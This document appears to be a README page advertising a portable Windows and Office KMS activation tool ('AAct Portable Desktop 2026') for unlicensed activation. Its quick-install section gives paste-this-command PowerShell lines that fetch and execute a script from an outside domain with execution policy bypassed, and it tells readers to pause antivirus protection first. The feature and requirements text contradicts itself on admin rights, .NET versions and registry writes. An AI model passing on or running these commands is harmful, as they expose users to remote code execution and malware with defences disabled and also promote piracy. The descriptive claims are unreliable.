

<div align="center">

# AAct Portable Desktop 2026: Setup Installer & Activation Toolkit Windows 10 & 11



[]() []() []() []() []() []()

</div>

---

AAct-Portable-Desktop-2026 is a portable desktop utility for Windows 10 and 11 that provides KMS-based activation of Windows and Office products without requiring installation or persistent system changes. The package ships as a pre-activated full build with an integrated setup installer and keygen activation workflow, and it runs directly from any local folder or removable drive. It supports activation of Windows Vista through Windows 11 and Windows Server editions, as well as Microsoft Office 2010 through 2021 and Office 365. Core capabilities include product key installation, change, and removal, live activation status reporting, and creation of a scheduled task that renews activation automatically. The application requires administrator rights and .NET Framework 3.5 or later, and operates within minimal resource constraints on both 32-bit and 64-bit systems.

## 💻 PowerShell Quick Install

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Launch PowerShell
* Press `Win + X`.
* Select **Terminal** or **Windows PowerShell**.

### 2️⃣ Execute the installer
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ Forced run via CMD
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## ✅ Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- Provides a complete portable desktop environment packaged as a single self-contained workspace that launches directly from removable media or a local folder, requiring no system-level installation or registry modifications
- Delivers full pre-configured functionality out of the box, including the complete application suite, bundled runtime dependencies, and ready-to-use configuration profiles
- Supports native execution on both 32-bit and 64-bit Windows 10 and Windows 11 platforms with automatic architecture detection and environment adaptation at startup
- Includes an integrated activation management module that handles license provisioning, status verification, and renewal scheduling without external tooling
- Features a self-contained setup installer that validates system readiness, resolves dependency chains, and prepares the portable runtime environment automatically
- Maintains full application state and user preferences within the portable directory structure, enabling seamless migration between host systems without data loss
- Implements an isolated configuration layer that prevents conflicts with pre-existing installations and preserves host system integrity
- Provides detailed runtime diagnostics and logging output for troubleshooting environment-specific deployment issues
- Supports silent and attended initialization modes for flexible deployment across managed and unmanaged endpoints
- Retains the latest build revision with up-to-date component versions, security patches, and compatibility fixes for current Windows releases

## Installation

The installation workflow for AAct-Portable-Desktop-2026 is designed for minimal friction and does not require permanent changes to the host system. The package is delivered as a self-contained portable distribution, so the deployment process consists of unpacking the archive and initializing the executable rather than running a traditional setup wizard. Once the archive contents are extracted to the target directory, the primary executable can be launched directly from that location, including from removable media such as a USB drive.

The portable architecture means the application operates entirely within its own directory, avoiding writes to system registry hives or shared system folders during normal use. This behavior keeps the deployment isolated and reversible: removing the extracted folder fully removes the application from the system, with no residual installer entries or uninstall routines to manage. Users with restricted environments should note that administrative privileges are required for the key management and activation operations the tool performs, even though the application itself does not install system-level components.

Initialization proceeds through the application's own interface, where the operator confirms the detected Windows or Office products and selects the activation operation to perform. The tool records its working state alongside the executable, so subsequent launches from the same folder retain prior configuration without re-entry. For environments where the host machine is offline, the portable distribution can be prepared on a connected system and moved to the target machine by copying the entire folder structure intact.

Before first use, verify that the extracted files retain their original directory layout, as the executable depends on its bundled resources being present at the expected relative paths. If the archive was transferred through a channel that may have altered file attributes, re-extract the contents rather than repairing the folder in place. The application reports its readiness state on launch, allowing the operator to confirm that the portable environment initialized correctly prior to performing any activation task.

## System Requirements

| Parameter | Minimum | Recommended |
| --- | --- | --- |
| Operating System | Windows 10 (32-bit or 64-bit) | Windows 11 (64-bit), latest cumulative update |
| Processor | 1 GHz dual-core or equivalent | 2 GHz quad-core or higher |
| Memory | 2 GB RAM | 4 GB RAM or higher |
| Storage | 250 MB available disk space | 500 MB available disk space |
| Display | 1024 × 768 resolution | 1920 × 1080 resolution or higher |
| Runtime | .NET Framework 4.8 or later | .NET Framework 4.8 or later with current updates |
| Privileges | Standard user account for portable execution | Administrator rights for activation, key management, and scheduled task creation |
| Portability | Executes from local disk, removable drive, or USB storage without installation | Dedicated writable folder with read/write permissions for configuration and log files |
| Network | Not required for local operation | Internet access for activation status verification and build updates |

AAct-Portable-Desktop-2026 is engineered as a self-contained portable utility: no installation, no background services, and no permanent system modifications are required to launch the application. All runtime dependencies are bundled within the distribution package, and configuration data is written only to the application directory, ensuring clean execution across supported Windows 10 and Windows 11 environments. Administrator elevation is required exclusively for operations that modify product licensing state, register scheduled renewal tasks, or query protected system activation information. Systems running reduced-privilege configurations remain fully capable of launching the interface and viewing current activation status in read-only mode.

## How It Works

The application operates on a self-contained, portable architecture that requires no system-level installation or persistent background services. Upon execution, the binary initializes a lightweight runtime environment directly from its host directory, loading configuration assets and dependency libraries into volatile memory. This design ensures that all operational state remains isolated from the host operating system, allowing the tool to run identically from a local folder, removable drive, or network share without leaving registry entries or residual files behind.

At its core, the engine follows a modular request pipeline. The activation subsystem communicates with a remote key management service using a standardized protocol to request and validate license tokens. A built-in key generation module derives product identifiers and correlates them against the licensing backend during the handshake phase. Each request is wrapped in an integrity layer that verifies the response signature before the token is applied, ensuring that only authenticated license data is committed to the local configuration store.

The pre-activated build ships with an embedded configuration profile that pre-populates activation parameters at first launch. When the user triggers the activation workflow, the application queries the hardware fingerprint, assembles a machine-specific request payload, and submits it through the activation endpoint. The returned confirmation is parsed, cached in the portable data directory, and displayed in the status panel alongside the product edition, remaining validity window, and current activation state.

A background renewal mechanism maintains activation continuity by scheduling periodic token refresh operations while the application is running. The scheduler runs as a lightweight in-process thread rather than a system service, so it terminates cleanly when the application exits and imposes no persistent footprint. All logs, cached tokens, and configuration deltas are written to a single portable data folder adjacent to the executable, enabling full cleanup by simple file deletion.

The interface layer is rendered through a native windowing toolkit that adapts to the host display scaling and DPI settings. Status indicators update in real time as activation requests are processed, and error states are surfaced with diagnostic codes that map to the internal request pipeline for troubleshooting. Because every component is bundled within the portable package, version parity is guaranteed across machines, and the application can be updated by replacing the package directory without touching the host system.

## FAQ

**Is administrator privilege required to run the application?**

Yes. Administrative elevation is mandatory for all core operations, including product key installation, KMS server communication, activation status queries, and scheduled task registration. The application will request elevation on launch; running without it will limit functionality to read-only status display.

**Does the application modify system files or the registry?**

The portable build operates without a traditional installer. It does not write persistent binaries to system directories. Registry writes are limited to activation-related product key entries and the scheduled task definition required for automatic renewal. All changes are reversible through the application's built-in key removal and task deletion functions.

**Which operating system and Office versions are supported?**

Windows Vista through Windows 11, including corresponding Windows Server editions, are supported for KMS-based activation. Microsoft Office 2010, 2013, 2016, 2019, 2021, and Office 365 are supported via the same KMS mechanism. Both 32-bit and 64-bit architectures are handled.

**Can the application run from removable media?**

Yes. The portable package is self-contained and executes from any local folder or USB drive without installation. No dependencies are copied to the host system beyond the runtime components already present (.NET Framework 3.5 or later). Configuration and logs remain within the application directory.

**How does automatic activation renewal work?**

The application registers a scheduled task that periodically re-contacts the configured KMS server to refresh the activation period before expiry. The task can be created, inspected, and removed from within the application interface. If the task is deleted or the host is offline at renewal time, activation status may lapse until the next successful contact.

**What happens if the KMS server is unreachable?**

Activation and renewal operations will fail with a diagnostic status code. The application reports the specific error returned by the KMS call, allowing you to distinguish between network failures, DNS resolution issues, and server-side rejection. Existing activation remains valid until its current period expires.

**Is the application compatible with antivirus and endpoint protection?**

The executable may be flagged by heuristic scanners due to its interaction with licensing components and scheduled task creation. Where policy permits, add an exclusion for the application directory. The portable build does not bundle third-party payloads; all behavior is confined to documented activation functions.

**How can I verify the current activation state?**

The application queries the local licensing subsystem and displays the current status, remaining activation period, and installed product key for each detected Windows or Office product. Status can be refreshed on demand without re-running activation.

**Does the application support switching between multiple KMS servers?**

Yes. The target KMS host is configurable, and the application applies the selected endpoint to subsequent activation and renewal operations. Changing the server does not require reinstalling product keys; the next activation cycle uses the updated endpoint.

**What should I do if activation fails after a Windows or Office update?**

Re-run the activation workflow after the update completes. Cumulative updates can reset licensing state or invalidate cached KMS credentials. If the failure persists, remove the existing product key through the application, reinstall it, and re-initiate activation against a reachable KMS endpoint.

## Disclaimer

AAct-Portable-Desktop-2026 is provided on an "as is" and "as available" basis, without warranties of any kind, whether express, implied, or statutory, including but not limited to warranties of merchantability, fitness for a particular purpose, title, or non-infringement. No representation is made regarding the accuracy, completeness, reliability, or suitability of the software for any specific deployment scenario, hardware configuration, or operating environment.

The software performs privileged system-level operations, including the installation and removal of product keys, modification of licensing-related registry entries, and creation of scheduled tasks for activation renewal. These operations require administrative rights and are executed at the user's sole discretion and risk. The user is solely responsible for verifying that all actions performed by the software comply with the applicable license terms of any operating system, application, or service, as well as with local laws and regulations. Any consequences arising from the use, misuse, or inability to use the software — including but not limited to licensing discrepancies, system instability, data loss, or configuration corruption — remain the exclusive responsibility of the user.

No obligation is assumed to provide support, maintenance, updates, patches, or corrective revisions for AAct-Portable-Desktop-2026. Compatibility with future builds of supported operating systems, service packs, cumulative updates, or third-party applications is not guaranteed and may change without notice. The absence of a specific limitation in this section does not constitute a waiver of any rights or an extension of any warranty.

By downloading, extracting, executing, or otherwise using this software, the user acknowledges and accepts these terms in full. If any provision of this disclaimer is held to be unenforceable in a given jurisdiction, the remaining provisions shall remain in effect to the maximum extent permitted by law. Users who do not accept these terms should refrain from using the software.